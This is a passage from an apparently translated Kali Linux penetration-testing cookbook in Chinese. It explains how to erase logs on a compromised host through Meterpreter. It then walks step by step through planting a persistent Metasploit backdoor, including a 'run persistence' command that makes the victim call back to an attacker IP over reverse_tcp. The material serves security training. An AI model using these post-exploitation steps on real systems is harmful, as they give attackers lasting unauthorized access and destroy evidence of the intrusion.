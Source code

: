 ### 工作原理

这个秘籍中，我们使用 Meterpreter  来清理我们在目标主机上的踪迹。我们从 Meterpreter 中开始这个秘籍，并启动了 IRB（一个 Ruby 解释器 shell）。下面，我们指定了想要清理的文件，并且最后键入了`Log.clear `命令来清理日志。要记住，一旦我们黑进了某个主机，你需要在最后执行这一步。你不能在清理踪迹之后再执行更多的操作，这样只会更加更多的日志条目。

## 7.6 创建永久后门

这个秘籍中，我们会使用 Metasploit persistence 来创建永久后门。一旦你成功获得了目标机器的访问权限，你需要探索重新获得机器访问权的方式，而不需要再次黑进它。如果目标机器的用户做了一些事情来终端连接，比如重启机器，后门的作用就是允许重新建立到你机器的连接。这就是创建后门非常方便的原因，它可以让你控制目标机器的访问。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们开始植入我们的永久后门。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/7-6-1.jpg)

2.  下面，我们需要运行 persistence，以便创建我们的后门。我们打开帮助文件：

    ```
    run persistence –h 
    ```
    
3.  永久后门有几个选项，包括：

    +   `-A`：这个选项会自动启动一个匹配的多重处理器来链接到代理端。
    
    +   `-S`：这个选项让后门自动化启动为系统服务。
    
    +   `-U`：这个选项让后门在用户启动系统时自动启动。
    
    +   `-i`：这个选项设置两次尝试回复攻击者机器之间的秒数。
    
    +   `-p`：这个选项设置攻击者机器上 Metasploit 的监听端口。
    
    +   `-P`：这个选项设置所用的载荷。默认使用` Reverse_tcp `，并且它通常是你想使用的东西。
    
    +   `-r`：这个选项设置攻击者机器的 IP 地址。
    
4.  现在，我们执行命令来建立后门：

    ```
    run persistence –U –A –i 10 – 8090 –r 192.168.10.109
    ```
    
5.  后门现在已经建立了。如果成功的话，你会注意到你有了第二个 Meterpreter  会话。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/7-6-2.jpg)
    
